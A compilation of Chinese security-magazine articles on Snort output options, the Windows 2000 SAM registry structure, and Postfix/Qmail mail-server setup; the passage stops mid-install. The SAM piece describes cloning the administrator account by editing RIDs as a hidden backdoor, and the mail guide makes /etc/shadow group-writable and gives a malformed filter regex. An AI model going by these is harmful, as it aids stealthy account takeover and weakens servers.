Snort 的 NIDS 模式有很多种方式配置输出。默认记录、警报机制记录、显示 ASCII 格式和使用“Full”警报。完全警报机打印出除数据报头之外的警报消息。命令行有几种不同的警报输出模式以及两种日志功能。

警报模式稍微有点复杂。它有 6 个警报模式可以使用，即 full、fast、socket、syslog、smb（WinPopup）和 none。4 种选项可以使用 -A 命令。这 4 个选项是：

- `-A fast`  
  fast 警报模式，警报中以简单格式写入时间、警报消息、源 IP 和目的 IP、端口。
- `-A full`  
  这是默认警报模式，所以，如果你没有指定，将自动被使用。
- `-A unsock`  
  发送消息到 Unix Socket，另一个程序监听。
- `-A none`  
  关掉警报。

默认记录数据包是按 ASCII 格式，或者通过使用 -b 命令使用二进制日志文件。如果你希望关闭 Packet Logging，使用 -N 命令。

输出模式也可以通过配置文件获得（详细将在后面部分谈到）。要注意的是命令行日志选项优先于任何指定的配置文件。

发送警报给 Syslog，使用“-s”参数。Syslog 警报机制默认的功能是 LOG_AUTHPRIV 和 LOG_ALERT。如果你想配置其他的功能输出给 Syslog，在规则文件中指定使用输出插件（我们将在后面部分给出更多的关于配置 Syslog 输出信息）。

最后，还有 SMB 警报机制。它允许 Snort 给 smbclient 一个消息，用 Samba 发送一个 WinPopup 警报消息给 Windows 机器。使用这种警报模式，你必须配置 Snort 使用 -enable-smbalerts 参数。

下面是几个输出配置的例子：

```bash
# 默认日志（ASCII）功能，发送警报到 syslog
./snort -c snort.conf -l ./log -s -h 192.168.1.0/24

# 默认日志功能，日志到 /var/log/snort 并发送警报到一个 fast alert 文件
./snort -c snort.conf -s -h 192.168.1.0/24

# 记录到二进制文件中，并发送警报到 Windows 工作站
./snort -c snort.conf -b -M WORKSTATIONS
```

##### （2）高性能配置

如果你想让 Snort 更快速（像在 100 Mbps 高速网络上使用），使用“-b”和“-A fast”或者“-s”（syslog）选项。这样将使用 tcpdump 格式记录数据包日志，并且产生最少的警报，例如：

```bash
./snort -b -A fast -c snort.conf
```

在这个配置中，Snort 可以在 100Mbps 的 LAN 中以并行方式探测记录攻击，Snort 的饱和水平大约是 80Mbps。在这个配置中，日志是以 tcpdump 格式记录在二进制文件 snort.log 中。如果要读这些 Snort 格式的数据，正确地使用“-r”选项和其他的选项就可以了。例如：

```bash
./snort -d -c snort.conf -l ./log -h 192.168.1.0/24 -r snort.log
```

这样就运行完成了。所有的数据将按普通编码格式保存在日志目录中。

##### （3）改变警报等级

> Some people don't like the default way in which Snort applies its rules to packets. The Alert rules applied first, then the Pass rules, and finally the Log rules. This sequence is somewhat counterintuitive, but it's a more foolproof method than allowing the user to write a hundred alert rules and then disable them all with an errant pass rule. For more information on rule types, see Section 2.2.1.

有些人不喜欢用 Snort 默认的方式应用这些规则——警报规则最先被应用，然后是通过规则和最后日志规则。这个顺序有点和我们想像中的顺序不一样，但它是一个简单的模块，可以允许用户编写上百条警报规则和在错误的通过规则中禁止它们（更多的信息可以看后面的部分）。

使用“-o”选项就可以改变默认的规则应用顺序了，首先是通过规则，然后是警报，最后是日志：

```bash
./snort -d -h 192.168.1.0/24 -l ./log -c snort.conf -o
```

#### 5. 杂项

如果你希望 Snort 以“daemon”模式运行，你可以添加 -D 参数组合到上面。请注意：如果你想重启 Snort 发送 SIGHUP 信号给 daemon，你需要使用 Snort 的完整路径：

```bash
/usr/local/bin/snort -d -h 192.168.1.0/24 -l /var/log/snortlogs -c /usr/local/etc/snort.conf -s -D
```

相对路径由于安全原因不被支持。

如果你要把日志信息贴到公共邮件列表中，你需要用 -O 参数。这个参数在打印数据包的时候“混乱”你的 IP 地址。这样方便你不想让邮件列表的成员知道你的 IP。你可以结合 -h 使用 -O 参数混乱你的 IP 和本地网络。上面这样也是有用的，如果你不想随意地让大家看到被攻击主机。

例如：

```bash
./snort -d -v -r snort.log -O -h 192.168.1.0/24
```

这样可以从日志文件中阅读数据包并且输出到屏幕，仅混乱 192.168.1.0/24 这个 C 类网络地址。

#### 6. 更多信息

第二章有更多的有关在配置文件中可使用的配置选项信息。Snort 的帮助手册使用 snort -? 输出：

```bash
snort -?
The Snort web page (http://www.snort.org) and the Snort User's mailing list (http://www.geocrawler.com/lists/3/SourceForge/4890/0/) at:
snort-users@lists.sourceforge.net
```

Snort 的官方网站（http://www.snort.org）和 Snort 用户邮件列表（http://www.geocrawler.com/lists/3/SourceForge/4890/0/）：
snort-users@lists.sourceforge.net

文／Refdom

### 安全账号管理器（SAM）结构

SAM，即安全账号管理数据库（Security Accounts Management Database），它是 Win NT/2000 操作系统的核心，其中存放了本地机和操作系统所控制域的组账号及用户账号信息。当你想登录到 Win NT/2000 大门的时候，如果在 SAM 库中没有找到你的信息，那肯定是被拒之门外的。本文详细分析了 SAM 的结构，如果能够熟悉 SAM 的结构，你将发现，可以对用户名与用户名之间、用户组与用户组之间进行调换以及账户和账户组伪造，完全打破微软的账户格局，并且非常隐蔽，让账户相关的 API 函数摸不着头脑。这一点你想到了该如何利用了吗？

SAM 数据库在磁盘上就保存在 %systemroot%\system32\config\ 目录下的 SAM 文件中，在这个目录下还包括一个 security 文件，是安全数据库的内容，两者有不少关系。

SAM 数据库中包含所有组、账户的信息，包括密码 HASH、账户的 SID 等。这些内容在后面详细介绍，以我分析的系统中文 Win2K Adv Server 为例。

#### 一、关于 SAM

不要误解了 SAM，这不是一个 SAM 文件这么简单。SAM（Security Accounts Manager，安全账户管理器）负责 SAM 数据库的控制和维护。SAM 数据库位于注册表 HKLM\SAM\SAM 下，受到 ACL 保护，可以使用 regedt32.exe 打开注册表编辑器并设置适当权限查看 SAM 中的内容。

运行：regedt32.exe，打开的注册表编辑器中，转到 HKEY_LOCAL_MACHINE 并展开到 \SAM\SAM，第二个 SAM 应该是灰色的（如果你没有修改过权限），请点到这个新展开的 SAM 上，然后选择菜单中的“安全”，并打开“权限”设置可访问的权限，就能够打开注册表中的 SAM 数据库树了。

#### 二、注册表中 SAM 数据库的结构

展开注册表 HKLM\SAM\SAM\：

```text
HKLM---SAM
    |---SAM
         |---Domains
         |    |---Account
         |    |    |---Aliases
         |    |    |    |---Members
         |    |    |    |---Names
         |    |    |---Groups
         |    |    |    |---00000201
         |    |    |    |---Names
         |    |    |         |---None
         |    |    |---Users
         |    |         |---000001F4
         |    |         |---000001F5
         |    |         |---000003E8
         |    |         |---000003E9
         |    |         |---Names
         |    |              |---Administrator
         |    |              |---Guest
         |    |              |---IUSR_REFDOM
         |    |              |---IWAM_REFDOM
         |---Builtin
              |---Aliases
              |    |---00000220
              |    |---00000221
              |    |---00000222
              |    |---00000223
              |    |---Members
              |         |---S-1-5-21-1214440339
              |              -706699826-1708537768
```



这是我机器上注册表中的 SAM 树。

对照 SAM 文件中的内容，可以看出，注册表中的 SAM 树实际上就是 SAM 文件中的一样。不过，SAM 文件中是先列 RXACT，然后是 Domains 内容（以此类推），文件中的表达顺序和注册表中的树形顺序是相反的。如果习惯于看文件内容，从文件的 0000h 到 00006Ch，表示的是 SAM 数据库所在的位置：`\systemroot\system32\config\sam`，然后是一段空白，直到 01000h（hbin），从这里开始就是整个数据库的内容。SAM 数据库的文件内容不作主要介绍，不过会穿插着介绍，有兴趣可以自己去研究。

推断一：从注册表中结构来看账号，如果查询一个账户名 `refdom` 的相关信息，那么，微软从账号名 `refdom` 中找到其类型 0x3EB，然后查找相对标志符（或者 SID）为 000003EB 的账号内容。所有的 API 函数（比如 `NetUserEnum()`）都是这样来执行的。因此，如果改变 `refdom` 账号中的类型 0x3EB 为 0x1F4，那么这个账号将被指向类 000001F4 的账户。而这个账户 000001F4 就是 administrator 账户，这样，系统在登录过程中就把 refdom 账号完全转为了 administrator 账号，账号 refdom 所使用的所有内容、信息都是 administrator 内容，包括密码、权限、桌面、记录、访问时间等等。这个推断应该成立，但是，这将意味着两个用户名对应一个用户信息，系统启动上应该会发生错误！

推断二是在以前分析结构的时候即得出了，揭示了登录过程中及之后账户名和 SID 关联的关系。

`\Domains\Account\Users\000001F4`，这就是 administrator 的账户信息（其他类似）。其中有两个子项 V 和 F。项目 V 中保存的是账户的基本资料，用户名、用户全名（full name）、所属组、描述、密码 hash、注释、是否可以更改密码、账户启用、密码设置时间等。项目 F 中保存的是一些登录记录，比如上次登录时间、错误登录次数等，还有一个重要的地方就是这个账号的 SID 相对标志符。

#### 三、SAM 数据库的结构和主要内容

在整个数据库中，账号主要内容存在于下面这些位置：

在 `\Domains\` 下就是域（或本机）中的 SAM 内容，其下有两个分支“Account”和“Builtin”。

`\Domains\Account` 是用户账号内容。

`\Domains\Account\Users` 下就是各个账号的信息。其下的子键就是各个账号的 SID 相对标志符。比如 000001F4，每个账号下面有两个子项，F 和 V。其中 `\Names\` 下是用户账号名，每个账号名只有一个默认的子项，项中类型不是一般的注册表数据类型，而是指向标志这个账号的 SID 最后一项（相对标识符），比如其下的 Administrator，类型为 0x1F4，于是从前面的 000001F4 就对应着账号名 administrator 的内容。由此可见 MS 账号搜索的逻辑。

以前分析结构的时候没有留意到这个地方，这就是 Adam 提出的思路。这个地方就是这个 SID 相对标志符在注册表中一个账号出现了两遍，一个是在子键 000001F4，另一个地方就是子键中项 F 的内容里面，从 48 到 51 的四个字节：`F4 01 00 00`，这实际上是一个 long 类型变量，也就是 `00 00 01 F4`。当一个标志出现在两个地方的时候将发生同步问题。很明显，微软犯了这个毛病。两个变量本应该统一标志一个用户账号，但是微软把两个变量分别发挥各自的作用，却没有同步统一起来。

子键中 000001F4 用来同用户名 administrator 对应，方便通过用户查询账户信息，比如 LookupAccountSid() 等账号相关 API 函数都是通过这个位置来定位用户信息的，这个关联应该是在用户登录以后。而项目 V 值中的 F4 01 00 00 是同账户登录最直接相关联的。

推断一：Win 登录的时候，将从 SAM 中获得相对标志符，而这个相对标志符的位置是 V 值中的 F4 01 00 00。但是，账户信息查询却使用了 SAM 中子键的内容。

推断二的原因假设（假设一）：在账户登录的时候，登录过程获得 SAM 数据库中用户名使用的账户记录信息中的相对标志符值（相当于 V 值中的 F4 01 00 00），账户登录之后，所有跟账户相关之后，这个值不再被 API 函数使用，而相对标志符由一个数据记录项的字段名代替（相当于子键 000001F4）。微软犯了一个同步逻辑错误！

推断二是根据 Adam 提出而进行的，以前没有这样推断过。推断二如果成立，揭示了在登录过程中账户 SID 进行的过程。这就是为什么 V 中的值都是跟账户登录记录（登录时间、密码错误次数等）相关的原因。同时，因为 F 中保存了一个用户名内容，而 API 函数查询的是这个用户名，所以 Adam 的克隆办法还是容易露馅，经 IIT 补充过后，这个用户名也被恢复原用户名了，从用户名上检测就相对难了。

上面对项目 V 的介绍可以知道，其中保存的是账户的基本资料，用户名、用户全名（full name）、所属组、描述、密码 hash、注释、是否可以更改密码、账户启用、密码设置时间等。现在要关心的是密码 HASH。

假设二：在账户的项 V 中，包含了用户 HASH，分别包括 LM2 和 NT 的密码加密散列，Crack 时，可分开进行，毕竟 LM2 简单。\Domains\Builtin 下的内容是同账户组相关的，其结构同 \Account 下的类似，并且也存在相应的问题，就不再啰嗦了。SAM 数据库保存在文件 SAM 中，可没有注册表中这么简明的内容，而主要是通过偏移量、长度来定位内容，并且单个账号的信息都是集中在一块的，而不是像注册表形式这样分隔开（名字在一个键，而内容在另外一个键）。

SAM 文件中，可根据下面这些分隔符来定位数据含义：

- nk（6E 6B）键或者子键名
- vk（76 6B）相应的值
- lf（6C 66）子键列表
- sk（73 6B）权限

#### 四、关于 SAM 数据库分析的结论

SAM HACK 是非常有危险性的。不正确的修改会将系统的安全数据管理器破坏，造成系统启动问题，虽然可以通过删除 SAM 文件来让启动恢复。如果能够熟悉 SAM 的结构，你将发现，可以对用户名与用户名之间、用户组与用户组之间进行调换，以及账户和账户组伪造，完全打破微软的账户格局。并且非常隐蔽，让账户相关的 API 函数摸不着头脑。

虽然微软处理账号信息中犯了不少逻辑错误，但是安全账号数据库并非不安全，所有操作都必须能完全拥有管理员权限。

当隐藏后门的办法被提出来之后，一定会让不少“黑客”利用，管理员也应该多多熟悉相关技术，作好安全检测，我的目的就达到了。对《克隆管理员账号》的简单检测工具可以在我的主页（www.opengram.com）下载，但是更多的还是需要管理员学习相关知识，才能更好地检测入侵。

## 名词荟萃

Cookie：由 Web 页服务器置于你硬盘上的一个非常小的文本文件。从本质上讲，它是你的身份证；它不能作为代码执行，也不会传送病毒，它为你所有，并且只能由提供它的服务器来读取。Cookie 的用途是通知服务器你已回到了该 Web 页。

syn/ack 数据包：这里通过说明一下两个互联网络程序间协议握手的过程（三次握手）来解释它们。协议握手的过程如下：其中一个应用程序向另一个程序发送一个 TCP SYN（同步）数据包，然后目标程序向第一个程序发送一个 TCP-ACK 应答数据包作为回答；第一个程序最后用一个 ACK 应答数据包确认已经收到了。一旦这两个程序握手成功，它们就准备一起运行了。

IDS：入侵检测系统全称为 Intrusion Detection System，它从计算机网络系统中的若干关键点收集信息，并分析这些信息，检查网络中是否有违反安全策略的行为和遭到袭击的迹象。入侵检测被认为是防火墙之后的第二道安全闸门。

### 量身订做邮件服务器

提到邮件，大家一定又会联想到近期的求职信变种。它的发作范围之广，影响之大，相信你已感觉到。这同时也说明了一个现状：随着互联网的发展，电子邮件的使用已经渗透进了生活、学习、办公等各个方面，逐渐有了取代普通信件的趋势。本文从 *nix 系统下讲述了 Sendmail、Postfix、Qmail 三种邮件服务器软件的安装配置。读者看完本文之后，相信可以自己建立一个合适、经济、高效、安全的邮件服务器。

文/书生

#### Postfix 安装及使用经验

Postfix 一般情况下与 Cyrus-imap 搭配组成一个邮件服务器。Postfix 的 SMTP 验证需要通过 SASL 库才可以实现，我们在前面已经介绍过如何安装 SASL 验证库，这里就不再介绍了。除了 Cyrus-imap 外，所有需要通过 SASL 进行验证的客户端软件（Postfix、Sendmail 等）都需要在 SASL 库的 SASL 目录下创建其进程所对应的配置文件，并在其中指定验证方式。如 Sendmail 的文件名为 Sendmail.conf，而 Postfix 的文件名则是 smtpd.conf。

Postfix 通过 LMTP 与 Cyrus-imap 通讯，将发往本地的邮件直接通过 LMTP 传送给 Cyrus-imap 处理。缺省情况下，Postfix 和 Cyrus-imap 都使用系统账号作为缺省的邮件账号，但是也可以使用 Mysql 等数据库。Postfix 与 Cyrus-imap 结合并使用系统账号作为邮件账号，只适用于不超过 2000 个账号的系统；当使用 Mysql 数据库存储邮件账号时，只适用于不超过 10 万个邮件账号的系统。

安装之前要建立几个账号：

```bash
#useradd -g mail postfix
#useradd -g mail cyrus
#groupadd postdrop
```

由于 cyrus-imap 在用系统账号当邮件账号的时候，需要读取 /etc/shadow 文件里面的东西来验证密码；同时 Postfix 在用 SASL 进行用户认证的时候，需要读写 sasldb，所以，为了不降低系统安全性，可以用命令：

```bash
#chown root:mail /etc/shadow
#chmod 660 /etc/shadow
#chgrp mail /etc/sasldb
#chmod g+rw /etc/sasldb
```

把 /etc/shadow 文件的属组改为 mail 组，同组用户可以同时读写。

首先安装 Cyrus-imap。从 ftp://ftp.andrew.cmu.edu/pub/cyrus-mail/ 可以下载到当前最新版本的 Cyrus-imap，版本是 2.0.16，文件名是 cyrus-imapd-2.0.16.tar.gz。按照下面的步骤安装：

```bash
#tar xvfz cyrus-imapd-2.0.16.tar.gz
#cd cyrus-imapd-2.0.16
```

由于 cyrus-imap 的配置文件有点问题，所以需要手动修改 configure 文件，找到 `CPPFLAGS="-I/usr/local/include ${CPPFLAGS}"` 这一行，修改成 `CPPFLAGS="-I/usr/local/include -I./et ${CPPFLAGS}"`，不然安装的时候会提示找不到 com_err.h 文件。

```bash
#./configure --with-auth=unix
#make depend
#make all CFLAGS=-O
#make install
```

修改 /etc/syslog.conf，在尾部加入两行：

```text
local6.debug    /var/adm/imapd.log
auth.debug      /var/adm/auth.log
```

然后建立两个 Cyrus-imap 的配置文件 /etc/imapd.conf，文件内容是：

```text
configdirectory: /var/imap/conf
partition-default: /var/spool/imap
admins: cyrus root
srvtab: /var/imap/srvtab
pwcheck_method: shadow
sendmail: /usr/sbin/sendmail
sieveusehomedir: false
sievedir: /var/imap/sieve
```

还有 /etc/cyrus.conf，内容是：

```text
START {
  mboxlist    cmd="ctl_mboxlist -r"
  deliver     cmd="ctl_deliver -r"
}
SERVICES {
  imap        cmd="imapd" listen="imap" prefork=0
  pop3        cmd="pop3d" listen="pop3" prefork=0
  sieve       cmd="timsieved" listen="127.0.0.1:sieve" prefork=0
  lmtpunix    cmd="lmtpd" listen="/var/imap/conf/socket/lmtp" prefork=0
}
```

同时必须确保 /etc/services 里面有如下定义的服务：

```text
pop3    110/tcp
imap    143/tcp
sieve   2000/tcp
```

还必须创建 Cyrus-imap 运行时需要的几个目录：

```bash
#mkdir -p /var/imap/sieve
#mkdir -p /var/imap/srvtab
#mkdir /var/spool/imap
#chown -R cyrus.mail /var/imap
#chown -R cyrus.mail /var/spool/imap
#su cyrus
$tools/mkimap
$exit
```

如果嫌每次都要用 /usr/cyrus/bin/master 来运行 cyrus-imap 麻烦的话，可以写一个运行脚本 /etc/rc.d/init.d/cyrus-imap，内容是：

```sh
#!/bin/sh
start() {
    #start cyrus-imapd
    if [ ! -x /usr/cyrus/bin/master ]; then
        echo "no such file or file can't execute";
    fi
    if [ ! -f /var/lock/subsys/cyrus.pid ]; then
        /usr/cyrus/bin/master&
        echo $! > /var/lock/subsys/cyrus.pid
        echo ""
        echo "Cyrus IMAP Server started."
        echo ""
    else
        echo "Cyrus IMAP Server:`cat /var/lock/subsys/cyrus.pid`"
        kill -TERM `cat /var/lock/subsys/cyrus.pid`
        rm -f /var/lock/subsys/cyrus.pid
        echo ""
        echo "Cyrus IMAP Server shutdown normally."
        echo ""
        /usr/cyrus/bin/master&
        echo $! > /var/lock/subsys/cyrus.pid
        echo ""
        echo "Cyrus IMAP Server started."
        echo ""
    fi
}
stop() {
    #stop cyrus-imapd
    if [ ! -f /var/lock/subsys/cyrus.pid ]; then
        echo ""
        echo "Is cyrus running already?"
        echo "I can't found it's pid."
        echo ""
    else
        echo "Cyrus IMAP Server:`cat /var/lock/subsys/cyrus.pid`"
        kill -TERM `cat /var/lock/subsys/cyrus.pid`
        rm -f /var/lock/subsys/cyrus.pid
        echo ""
        echo "Cyrus IMAP Server shutdown normally."
        echo ""
    fi
}
# See how we were called.
case "$1" in
    start|restart)
        start
        ;;
    stop)
        stop
        ;;
    *)
        echo $"Usage: $0 {start|stop|restart}"
        exit 1
esac
```

然后记得 chmod +x cyrus-imapd，这样就可以在开机的时候用 cyrus-imapd start 来启动 cyrus-imap 了，方便吧？

现在我们用 cyrus-imapd start 来启动一下 cyrus-imap，然后看 /var/log/message，如果尾部类似下面的内容，那么证明服务已经成功启动：

```text
Apr 28 00:04:42 mail master[4550]: process started
Apr 28 00:04:42 mail ctl_mboxlist[4551]: running mboxlist recovery
Apr 28 00:04:43 mail ctl_mboxlist[4551]: done running mboxlist recovery
Apr 28 00:04:43 mail master[4550]: ready for work
```

服务启动后，就可以开始建立用户了。

```sh
# useradd -s /usr/bin/passwd test
#/usr/cyrus/bin/cyradm -u cyrus localhost
```

进入 cyrus-imap 的管理界面。

mail>（这个提示符是主机名 + “>”号）

在这个提示符下输入：

```text
mail>createmailbox user.test
```

建立邮件账号 test，然后用下面的命令建立邮箱：

```text
mail>createmailbox user.test.Sent
mail>createmailbox user.test.Trash
mail>createmailbox user.test.Drafts
```

如果要删除用户，则用：

```text
mail>deletemailbox user.test
```

删除文件夹：

```text
mail>deletemailbox user.test.Drafts
```

设置用户信箱大小为 8M：

```text
mail>setquota user.test 8000
```

装完 cyrus-imap 以后，就可以装 Postfix 了。

首先到 ftp://postfix.linuxaid.com.cn/pub/postfix/index.html 获得 Postfix 的安装包，现在的最新版本是 1.1.7，文件是 postfix-1.1.7.tar.gz。按照下面的步骤安装：

```sh
#tar xvfz postfix-1.1.7.tar.gz
#cd postfix-1.1.7
```

为了让 Postfix 支持 SASL 认证方式，在编译前需要对 Makefile 进行修改。

代码如下图：



回答完这些问题，系统就会按照这些信息，把 Postfix 安装到指定的地方。

装完之后的 Postfix 是不能用的，因为还没有配置，配置文件里面的内容都是注释状态，没有起作用。为了让 Postfix 能用，需要修改配置文件，使用符合自己机器情况的参数，然后去掉相关项目目前的注释。配置文件一般在 /etc/postfix/main.cf，一般需要有的项目代码如下图：



#### 为了进行身份验证，还有如下内容

```conf
smtpd_recipient_restrictions = permit_mynetworks,
permit_sasl_authenticated, reject_maps_rbl,
check_relay_domains
smtpd_sasl_auth_enable = yes
broken_sasl_auth_clients = yes
smtp_sasl_security_options = noanonymous
maps_rbl_domains = blackholes.mail-abuse.org, dialups.mail-abuse.org, relays.mail-abuse.org
smtpd_client_restrictions = permit_mynetworks,
reject_maps_rbl
```

最后用 postfix start 来启动 postfix。

如果要加强服务器的吞吐量，可以修改 main.cf 里面的相关选项：

```conf
qmgr_message_active_limit = 250
qmgr_message_recipient_limit = 500
```

同时修改 master.cf 里面同时打开的子程序的最大数量：```text
smtp      inet  n  -  n  -  5120  smtpd
#628      inet  n  -  n  -  -     qmqpd
pickup    fifo  n  -  n  60  1    pickup
cleanup   unix  n  -  n  -   24   cleanup
qmgr      fifo  n  -  n  300 1    qmgr
#qmgr     fifo  n  -  n  300 1    nqmgr
rewrite   unix  -  -  n  -   -    trivial-rewrite
bounce    unix  -  -  n  -   0    bounce
defer     unix  -  -  n  -   0    bounce
flush     unix  n  -  n  1000 0   flush
smtp      unix  -  -  n  -   -    smtp
showq     unix  n  -  n  -   -    showq
error     unix  -  -  n  -   -    error
local     unix  -  n  n  -   -    local
virtual   unix  -  n  n  -   -    virtual
lmtp      unix  -  -  n  -   -    lmtp
```

为了提高安全性，还要在 main.cf 里面做如下限制：

```text
限制 ETRN 和 VRFY 的使用：
smtpd_etrn_restrictions = permit_sasl_authenticated

disable_vrfy_command = yes

取消 postfix 的 banner：
smtpd_banner = $myhostname ESMTP

Postfix 有自己对邮件头部和邮件体的过滤规则，只要在 main.cf 里面加入两行：
header_checks = regexp:/etc/postfix/header_checks
body_checks   = regexp:/etc/postfix/body_checks

然后在 /etc/postfix 下面建立 header_checks 和 body_checks 这两个文件，就可以对邮件的头部和信件体进行检查了。这两个文件的内容一般是：
/someexpression/ REJECT

比如要禁止收发含有 nimda 病毒的文件：
/^([^"]*name="readme.exe"/ REJECT
```

#### Qmail 安装及使用经验

Qmail 是一个十分小巧的 MTA，一般和 vpopmail 配合使用，可以用数据库（一般是 mysql）储存用户，实现邮件用户和系统用户分离。

现在安装采取的是 Qmail + vpopmail，采用系统用户验证。

Qmail 的安装需要很多第三方插件，这也是 Qmail 安装的一个不方便的地方。

Qmail 安装的一个不方便的地方：安装一个用系统用户当邮件用户的 Qmail 邮件系统，需要的软件有下面几个：

- 1. Qmail 的安装文件 `qmail-1.03.tar.gz`
  `http://cr.yp.to/software/qmail-1.03.tar.gz`

  Qmail 的 smtp 验证补丁
  `http://www.nimh.org/hacks/qmail-smtpd.c`

- 2. 为 `smtpd` 提供系统用户信息验证程序 `checkpassword` 和 `cmd5checkpw`
  `http://cr.yp.to/checkpwd/checkpassword-0.90.tar.gz`
  `http://members.elysium.pl/brush/cmd5checkpw/`

- 3. 为 Qmail 提供类似 Inetd 网络服务功能的程序 `ucspi-tcp`
  `http://cr.yp.to/ucspi-tcp/ucspi-tcp-0.88.tar.gz`

- 4. 为 Qmail 提供虚拟域名等功能的程序 `vpopmail`
  `http://www.inter7.com/vpopmail/vpopmail-5.2.tar.gz`

- 5. UNIX 系统服务管理工具 `daemontools`：这个可以选择是否要装，不过装了以后可以监视 Qmail 的服务是否停止，十分有用。虽然现在已经有了 `daemontools-0.76`，但是感觉 `daemontools-0.70` 的比较好用，故推荐 `0.70` 版本。
  `http://cr.yp.to/daemontools/daemontools-0.70.tar.gz`

- 6. 为了支持过滤功能，需要下列文件：
  到 `http://www.qmail.org/qmailqueue-patch` 得到 `qmail-queue` 的补丁包，把里面的文件内容存为 `qmailq.patch`。
  到 `http://cvs.sourceforge.net/cgi-bin/viewcvs.cgi/*checkout*/qmfilt/qmfilt/qmfilt.py?rev=1.2` 得到 `qmfilt.py`。

首先要建立一些必要的目录：

```bash
#mkdir /var/qmail
#ln -s /usr/man /var/qmail/man
#mkdir /etc/qmail
#ln -s /etc/qmail /var/qmail/control
#ln -s /usr/sbin /var/qmail/bin
```

然后建立 Qmail 运行的时候需要的用户：

```bash
#groupadd nofiles
#useradd alias -g nofiles -d /var/qmail/alias -s /nonexistent
#useradd qmaild -g nofiles -d /var/qmail -s /nonexistent
#useradd qmaill -g nofiles -d /var/qmail -s /nonexistent
#useradd qmailp -g nofiles -d /var/qmail -s /nonexistent
#groupadd qmail
#useradd qmailq -g qmail -d /var/qmail -s /nonexistent
#useradd qmailr -g qmail -d /var/qmail -s /nonexistent
#useradd qmails -g qmail -d /var/qmail -s /nonexistent
```

接着开始安装上面的程序：

```bash
#tar zxvf checkpassword-0.90.tar.gz
#cd checkpassword-0.90
#make
#make setup check
#chmod 4755 /bin/checkpassword（为了让 qmaild 能使用系统用户密码）
#cd ..
#tar zxvf cmd5checkpw-0.22.tar.gz
#cd cmd5checkpw-0.22
#make
#make install
#cd ..
#tar xvfz daemontools-0.70.tar.gz
